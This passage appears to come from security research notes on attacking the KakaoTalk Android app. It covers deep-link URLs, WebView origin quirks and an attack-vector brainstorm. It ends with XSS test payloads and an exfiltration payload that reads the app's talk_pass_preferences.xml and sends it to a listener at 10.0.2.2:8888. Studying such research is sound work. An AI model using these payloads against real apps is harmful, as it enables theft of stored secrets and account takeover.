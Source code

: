 - Setup Kakaopay —> Get Korean phone number / SIM card
  - `kakaotalk://kakaopay/billgates?url=`
  - `kakaotalk://kakaopay/web?url=`
  - `kakaotalk://kakaopay/payweb?url=`
  - `kakaopay://payweb?url=`

### Misc

- Try to send intents to `com.kakao.talk.service.MessengerService` (via `kakaotalk://buy` Webview)
- Clicking on https://auth.kakao.com in the KakaoTalk chat leads to `KakaoAccountSettingsActivity`
- Switch to a different Activity via `continue` parameter -> `https://auth.kakao.com/kakao_accounts?continue=kakaotalk://main`
- When opening `content:` URIs I end up in the `null` origin -> `XMLHttpRequest` to `http` scheme works here

## Appendix

### Attack Vector Brainstorming

- File load from insecure file locations
- Load data into WebViews via `intent:` scheme
- HTTP(S) MITM
- Create a `Plus Friend` or `Kakao Business` page or an `Open Chat Room` to deliver malicious JS
- Deep link parsing
  - Deep link —> open insecure WebView —> MITM —> run arbitrary JS code
  - Use the `intent:` scheme to start arbitrary components
  - Open attacker controlled website -> JS
  - Try different URL schemes (e.g., `javascript:`, `intent:`, `file://`, `content://`, `data://`,  etc.)
- Phishing (e.g., steal credentials by showing a legitimate KakaoTalk page)
  - https://accounts.kakao.com/

### Payloads

Test payloads:

```javascript
<img src=1 onerror=\"alert(1);alert('XSS')\"/>
```

```javascript
var x=new XMLHttpRequest(); x.open('GET', 'http://localhost:8000/', true); x.send();
```

```javascript
<img src=1 onerror=\"var xhttp_comment = new XMLHttpRequest();xhttp_comment.open('GET', 'http://localhost:8000/', true);xhttp_comment.send();\"/>
```

Exfiltration payload:

```javascript
<img src=1 onerror=\"
var xhttp_comment = new XMLHttpRequest();

xhttp_comment.onreadystatechange = function() {
    if (this.readyState == 4) {
        img = new Image();
        img.src = 'http://10.0.2.2:8888?data=' + encodeURIComponent(this.responseText);
    }
};

xhttp_comment.open('GET', 'file:////data/user/0/com.kakao.talk/shared_prefs/talk_pass_preferences.xml', true);
xhttp_comment.send();
\"/>
```
